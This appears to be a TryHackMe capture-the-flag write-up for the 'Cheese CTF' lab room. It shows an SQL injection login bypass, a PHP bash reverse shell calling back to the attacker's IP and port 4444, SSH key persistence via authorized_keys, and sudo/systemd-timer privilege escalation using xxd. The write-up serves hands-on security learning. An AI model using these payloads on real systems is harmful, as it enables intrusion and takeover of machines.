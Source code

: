 ```yaml
---
title: "Cheese CTF Room"
date: 2025-07-25
categories: [TryHackMe]
tags: [vm, ctf, nmap, linux, reverse shell, privilege escalation]
---
```


# Scanning the target

I used Nmap command to scan for open ports on the target machine and discovered three accessible ports:

- Port 21: FTP service
- Port 22: SSH service
- Port 80: HTTP web server

![Nmap command](../assets/img/CheeseCTF_nmap.png)

Exploring the HTTP connection, I found a page with login: 
![Cheese CTF page](../assets/img/CheeseCTF_login.png)

# SQL Injection

I suspected an SQL injection vulnerability, so I started testing with sqlmap:
```
sqlmap -u "http://10.10.205.255/login.php" --data="username=test&password=test" --batch
```

Sqlmap tests if any parameters (username, password, or the URL itself) are vulnerable to SQL injection.

![sqlmap results](../assets/img/CheeseCTF_sqlmap.png)

After these results, I could realise what the username and password were so I tried: ```' || 1=1;-- -``` as the username and ```'``` as password and get in!!

# Reverse Shell Access

Then, to get a Reverse Shell, I generated a PHP payload with the command:
```
echo <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.23.149.56/4444 0>&1'"); ?> > payload.txt
```
Then, when run on the server, will open a connection back to my machine.


Then, I sent the payload to the server using:: ```curl "http://10.10.187.67/secret-script.php?file=$(cat payload.txt)"```

Open another terminal and run ```rlwrap nc -lvnp 4444```
And it's possible to enter the target machine!!

# File Exploration

Now to explore the files, always got "Permission denied" erros. So,  searched for writable files and found that ```~/.ssh/authorized_keys``` was writable, where ussually the SSH keys are saved.

On my own machine, I got my SSH public key with ```cat ~/.ssh/id_rsa.pub```, and add it to the authorized_keys:
```echo 'ssh-ed25519 sshKey kali@kali' >> /home/comte/.ssh/authorized_keys```

After this I write ```cat user.txt``` and find the firts THM flag!!

# Sudo + Timer Exploit

For the root.txt flag, I started with sudo command:

![Sudo command](../assets/img/CheeseCTF_sudoCommand.png)

So, I explored the exploit.timer file, and edit it to ```OnBootSec=5s```.

I then reloaded the systemd daemon and started the timer service:

Taking a look at the exploit.service:
```
sudo systemctl daemon-reexec
sudo systemctl start exploit.timer
```
After confirming that the timer was active, I explored exploit.service:
![exploit.service](../assets/img/CheeseCTF_exploitService.png)

I went digging and found this [XXD Documentation](https://gtfobins.github.io/gtfobins/xxd/?source=post_page-----5c1e2193880b---------------------------------------)

After a few tries I was abel to get the flag with ```opt/xxd "$LFILE" | xxd -r```!!

# Conclusion
This room was a fun mix of enumeration, SQLi exploitation, reverse shell tactics, and a clever privilege escalation via systemd timers.